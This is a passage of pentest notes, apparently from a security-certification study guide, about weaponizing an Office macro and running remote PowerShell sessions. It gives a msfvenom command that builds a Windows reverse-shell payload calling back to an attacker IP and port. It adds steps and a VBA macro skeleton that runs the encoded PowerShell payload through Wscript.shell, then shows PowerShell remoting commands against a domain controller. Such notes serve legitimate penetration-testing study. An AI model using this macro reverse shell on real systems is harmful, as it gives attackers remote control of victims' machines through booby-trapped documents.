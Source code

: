 #### Weaponize

With a working PoC, we can construct a Reverse Shell, as shown in Linux\Pentest Cmds\Client-Side-Attacks\MSOffice.md, but is summarized below.

1. Use msfvenom to construct the payload using the hta format, but our LHOST will be the Windows client we are attacking from (this is the interface that connects to the network of our target in this case)

   ```powershell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.216.10 LPORT=4444 -f hta-psh -o badfile.hta
   ```

2. Open the output file and copy from `"powershell.exe` to the quote at the end of the 64-bit encoded payload (but not the `,0` at the end)

3. Use a Python script to split the string into smaller chunks to overcome the VB Script limitations.

4. Paste this variable construct into the macro and call the str as the command:

   ```vbscript
   Sub mymacro()
       Dim Str as String
       <INSERT STRING BUILDER OUTPUT FROM PYTHON>
       CreateObject("Wscript.shell").Run Str
   End Sub
   ```

### Remote Powershell Session

Requires admin rights, allows you to run commands on a remote machine using Powershell

```bash
# Create a new session object for the DC
$dcsesh = New-PSSession -Computer SANDBOXDC

# Run commands against the DC using PowerShell
# The command to execute must be wrapped in curly brackets
Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}

# Copy a file to the remote server
Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
```

